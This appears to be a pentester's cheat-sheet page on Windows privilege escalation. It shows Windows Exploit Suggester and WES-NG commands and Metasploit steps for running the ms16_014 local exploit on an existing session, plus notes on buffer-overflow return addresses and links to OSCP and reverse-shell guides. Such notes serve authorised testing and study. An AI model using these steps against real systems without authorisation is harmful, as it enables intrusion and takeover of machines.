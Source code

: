 
## Windows exploit suggester

{% code overflow="wrap" %}
```bash
https://github.com/SecWiki/windows-kernel-exploits/
# WES (next generation) https://github.com/bitsadmin/wesng
wes.py --update
wes.py systeminfo.txt
wes systeminfo.txt -i "Elevation of Privilege" --muc-lookup --exploits-only --color

systeminfo on Windows machine -> copy into a file

./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2020-09-17-mssb.xls --systeminfo /root/Desktop/thm/hackPark/systeminfo.txt 

# START FROM THE BEGINNING, COPY MSXX-XXX AND THEN GOOGLE "MSXX-XXX EXPLOIT". THE GOAL IS TO FIND A .EXE FILE READY TO GO
```
{% endcode %}

### Metasploit

{% code overflow="wrap" %}
```bash
# Having a Metasploit session
msf > run post/multi/recon/local_exploit_suggester
# 2. Identify exploit/windows/local/ms16_014_wmi_recv_notif as a potential privilege escalation
msf > use exploit/windows/local/ms16_014_wmi_recv_notif
msf > set SESSION [meterpreter SESSION number]
msf > run
# NOTE: The shell might default to your eth0 during this attack.  If so, ensure you type set lhost [Kali VM IP Address] and run again.
```
{% endcode %}

## Binary compilation&#x20;

If we do not have a return address from a previously-developed exploit, we have a few options to consider. The first, and most recommended option, is to recreate the target environment locally and use a debugger to determine this address.

If this is not an option, we _could_ use information from other publicly-available exploits to find a reliable return address that will match our target environment.

| [https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/working-with-exploits](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/working-with-exploits) |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [https://oscp.infosecsanyam.in/](https://oscp.infosecsanyam.in/)                                                                                                     |
| [https://www.puckiestyle.nl/c-simple-reverse-shell/](https://www.puckiestyle.nl/c-simple-reverse-shell/)                                                             |

{% hint style="info" %}
If a buffer overflow does not work, check why by inspecting memory variables. Maybe the buffer is 1 byte bigger/smaller, too many NOPs...
{% endhint %}
